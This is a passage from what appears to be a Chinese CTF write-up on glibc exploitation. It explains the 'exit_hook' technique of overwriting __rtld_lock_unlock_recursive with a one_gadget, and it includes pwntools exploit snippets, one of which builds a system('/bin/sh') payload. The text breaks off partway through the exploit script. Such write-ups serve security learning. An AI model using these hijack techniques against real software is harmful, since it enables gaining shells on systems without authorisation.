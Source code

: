 ```python
sa('where to write?:',p64(exit_funcs))

sla('msg:',b'a'*0x8+p64(1)+p64(4)+p64(encode_system)+p64(binsh))
ia()
```



## 改写__rtld_lock_unlock_recursive

一般也叫`exit_hook`

实验环境glibc-2.29

### 原理

在`__run_exit_handlers`函数正常调用`_dl_fini`函数后，`_dl_fini`函数又会通过`_rtld_lock_unlock_recursive`宏定义来调用`_rtld_global`结构体中的函数指针

>在exit()中执行流程为
>
>`exit()->__run_exit_handlers->_dl_fini->__rtld_lock_unlock_recursive`
>
>由于`__rtld_lock_unlock_recursive`存放在结构体空间，为可读可写，那么如果可以修改`__rtld_lock_unlock_recursive`,就可以在调用exit()时劫持程序流

在gdb中输入` p _rtld_global`命令可以完整的看到该结构体

其中`rtld_lock_default_lock_recursive`和`rtld_lock_default_unlock_recursive`两个是都会被调用的函数指针

![](https://tva1.sinaimg.cn/large/0081Kckwgy1glosue5p2bj312x0u042s.jpg)

而该结构体所在的段也是具有可写权限的

![](https://tva1.sinaimg.cn/large/0081Kckwly1glot0vx4sgj31qi0maq6o.jpg)

由于不能控制参数，所以可以通过任意地址写将其中一个函数指针改写为one_gadget完成利用

### 例题

[安洵杯2020 sfs](https://github.com/X1ngn/ctf/blob/master/axb.zip)

exp:

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='sfs'
libc_name='libc.so.6'
if local:
    p=process("./"+binary_name)
    libc=ELF("./"+libc_name)
else:
    p=remote('axb.d0g3.cn',20103)
    e=ELF("./"+binary_name)
    libc=ELF("./"+libc_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
```